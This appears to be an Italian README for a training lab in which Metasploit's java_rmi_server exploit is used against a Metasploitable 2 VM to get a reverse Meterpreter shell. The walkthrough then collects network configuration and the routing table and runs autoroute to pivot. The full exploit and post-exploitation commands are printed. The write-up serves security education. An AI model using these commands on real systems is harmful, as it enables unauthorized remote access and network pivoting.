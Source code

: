 # Progetto S7/L5 - Altri utilizzi vari di Metasploit 🚀

## 📋 Descrizione
Questo progetto esplora l'uso avanzato di **Metasploit Framework**, concentrandosi su:
- **Sfruttamento di vulnerabilità** (es. Java RMI sulla porta 1099).
- **Raccolta di informazioni** su configurazioni di rete e tabelle di routing della macchina target.

**Obiettivo:** Dimostrare competenza nell'utilizzo di Metasploit per raccogliere informazioni e accedere ai sistemi vulnerabili in un ambiente controllato.

---

## 🛠️ Ambiente di test

- **Macchina attaccante:** Kali Linux
  - **IP:** 192.168.50.165
- **Macchina vittima:** Metasploitable 2
  - **IP:** 192.168.50.3
  - **Servizio vulnerabile:** Java RMI (porta 1099)

---

## ⚙️ Passaggi eseguiti

### 1️⃣ Configurazione della rete
Per garantire la comunicazione tra le macchine:
- La macchina Metasploitable è stata configurata con un IP statico: `192.168.50.3`.
- Verificata la connettività con il comando:
  ```bash
  ping 192.168.50.3
  ```

---

### 2️⃣ Sfruttamento della vulnerabilità

#### Modulo usato:
- **Exploit:** `exploit/multi/misc/java_rmi_server`

#### Configurazione del modulo:
```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS 192.168.50.3
set RPORT 1099
set LHOST 192.168.50.165
set LPORT 4444
exploit
```

#### Risultato:
- Ottenuta una sessione **Meterpreter** sulla macchina vittima.

---

### 3️⃣ Raccolta di informazioni 🕵️‍♂️

#### Configurazione di rete:
- Comando eseguito da Meterpreter:
  ```bash
  ifconfig
  ```
  - Output salvato in `netconfig.txt`.

#### Tabella di routing:
- Recuperata la tabella di routing:
  ```bash
  cat /proc/net/route
  ```
  - Output salvato in `routing_table.txt`.

---

### 4️⃣ Utilizzo del modulo `autoroute`

Per esplorare ulteriormente la rete:
- **Modulo usato:** `post/multi/manage/autoroute`
- Configurazione:
  ```bash
  use post/multi/manage/autoroute
  set SESSION 1
  run
  ```
- **Risultato:** Aggiunto il route alla rete `192.168.50.0/24`.

---

## 📂 File generati

- `netconfig.txt`: Configurazione di rete della macchina vittima.
- `routing_table.txt`: Tabella di routing della macchina vittima.

---

## 📸 Screenshot

### Configurazione di rete
![Configurazione di rete](route.png)

### Tabella di routing
![Tabella di routing](TabelladiRouting.png)

---

## 💡 Conclusioni

L'esercizio ha permesso di:
1. Sfruttare una vulnerabilità nota per ottenere l'accesso remoto.
2. Raccogliere informazioni critiche sulla macchina vittima.
3. Configurare Metasploit per estendere il controllo alla rete target.

Questo progetto dimostra la versatilità di Metasploit non solo per l'exploit di vulnerabilità, ma anche per la raccolta di informazioni e la gestione avanzata delle reti. 🛡️
